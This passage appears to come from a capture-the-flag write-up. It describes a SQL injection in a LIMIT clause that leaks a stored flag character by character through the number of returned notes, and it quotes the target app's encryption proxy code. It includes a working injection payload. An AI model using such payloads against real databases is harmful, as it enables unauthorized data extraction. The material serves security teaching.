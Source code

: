 Considering that we are in the limit clause, we are not restricted to returning 0 or 1. It can be any number. His idea was to add 128 notes and return the amount of notes equal to ASCII code of the next character of the flag. So each query returns as many notes as the ASCII code of the character.

```sql
/notes%3Forder=asc limit (select unicode(substr((select body from notes limit 1), %s, 1)))--
```

Then just count the amount of notes in the response.

4.The next issue is here, if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested:

```python
def proxy(path):
    ...
    elif request.method == 'POST':
        headers['Content-type'] = request.content_type
        proxy_request = requests.post(
            f'{BACKEND_URL}{path}?{query}',
            data=encrypt_params(request.form),  # Encrypted here
            headers=headers,
            allow_redirects=False
        )
    ...
    response_data = decrypt_data(proxy_request.content)  # Decrypted here
    ...
```

Even though we can leak the flag, how we can decrypt it? As the encryption is strong enough and can’t be exploited, which means the only way is to find out how we can make the app decrypt the flag for us. View the encryption and decryption functions:

```python
def encrypt_params(param):
    # We don't want to encrypt identifiers.
    # This is a default set of typical ID values.
    # In the future should be configurable per customer.
    IGNORE = ['uuid', 'id', 'pk', 'username', 'password']
    encrypted_param = {}
    for key in param:
        val = param.get(key, '')
        if key in IGNORE:
            encrypted_param[key] = val
        else:
            encrypted_param[key] = encrypt(val)

    return encrypted_param

def decrypt_data(data):
    cryptz = re.findall(r'ENCRYPT:[A-Za-z0-9+/]+=*', data.decode())
    for crypt in cryptz:
        try:
            data = data.replace(crypt.encode(), decrypt(crypt))
        except binascii.Error:
            data = data.replace(crypt.encode(), b'MALFORMED ENCRYPT')

    return data
```
